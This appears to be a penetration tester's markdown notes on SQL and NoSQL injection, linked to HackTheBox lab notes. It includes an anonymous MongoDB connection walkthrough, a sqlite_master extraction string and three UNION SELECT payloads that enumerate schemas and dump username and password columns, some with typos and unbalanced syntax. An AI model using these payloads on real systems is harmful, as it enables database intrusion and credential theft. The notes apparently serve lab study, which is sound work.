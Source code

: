 SQL Injection is an attack in which malicious SQL statements are injected into SQL
easy to avoid

# Common SQL Verbs
SQL statment begin with verbs
SELECT
INSERT
DELETE
UPDATE
DROP
UNION


# NoSql commands
https://blog.e-zest.com/basic-commands-for-mongodb


## Mongodb


downloading the following tar archive file
```
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
```

We must then extract the contents of the tar archive file using the tar utility.

```
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

Navigate to the location where the mongo binary is present.

```
cd mongodb-linux-x86_64-3.4.7/bin
```
Let's now try to connect to the MongoDB server running on the remote host as an anonymous user.


```
show dbs;
use # DATABASE NAME;
show collections;
db.COLLECTION_NAME.find().pretty;


```

```Sql
Nosql injection
` ||  ( COMMAND ) || `

` ||  (select sql from sqlite_master ) || `
select * from TABLE 
select COLUMN from TABBLE
```


# Additional to [[SQL-Injection (SQLi)]]
from [[00 Progress/Boxes/HTB/Linux/Shared/01 Exploit]]

change # to the values


1- union select 1,(select group_concat(schema_name) from INFORMATION_SCHEMA.SCHEMATA,3-- -

2- union select 1,(select group_concat(TABBLE_NAME,':',COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA like '# DATABASE NAME '),3-- -

3- union select 1,(select group_concat(# username ,':',# password) from # user  ,3-- -



